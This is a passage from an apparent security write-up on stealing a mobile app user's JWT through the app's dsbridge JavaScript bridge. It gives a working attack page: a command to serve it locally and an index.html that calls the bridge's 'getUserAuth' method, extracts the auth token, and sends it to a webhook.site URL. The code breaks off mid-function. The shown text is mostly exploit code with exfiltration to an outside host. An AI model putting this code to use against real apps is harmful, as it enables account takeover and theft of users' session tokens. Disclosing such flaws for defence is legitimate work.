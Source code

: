 





To observe incoming requests without setting up a backend, I'll use https://webhook.site. It provides a unique URL that logs all requests in real time—ideal for confirming that the JWT is actually being exfiltrated from the device.

If you examine the code closely, you’ll notice the following URLs being referenced:

- `https://mhl-cex-auth-worker.arnotstacc.workers.dev/promo/0`
- `https://mhl-cex-auth-worker.arnotstacc.workers.dev/promo/1`
- `https://mhl-cex-auth-worker.arnotstacc.workers.dev/help`

From the source code, it's clear that these endpoints are responsible for loading a specific script.

```html
<script src="https://cdn.jsdelivr.net/npm/dsbridge/dist/dsbridge.js"></script>
```





<br /><br />

to Steal the User Token:

start python web server

```
python -m http.server
```



<br />

index.html

```html
<!doctype html>
<meta charset="utf-8">

<!-- load dsbridge -->
<script src="https://cdn.jsdelivr.net/npm/dsbridge@3.1.4/dist/dsbridge.min.js"></script>

<script>
function sendToken(token){
  fetch("https://webhook.site/<id>?token="+encodeURIComponent(token));
}

function getToken(res) {
    if (typeof res === "string") {
        try {
            res = JSON.parse(res);
        } catch (e) {}
    }
    return res && res.data && res.data.authtoken;
}

// bridge ready and ask for token
document.addEventListener("DOMContentLoaded",()=>{
  const bridge = window.dsBridge || window._dsbridge;
  if(!bridge || !bridge.call){ 
    return;
 }

// getUserAuth
  bridge.call("getUserAuth", {}, function(resp){
      const jwt = getToken(resp);
      if(jwt){ 
```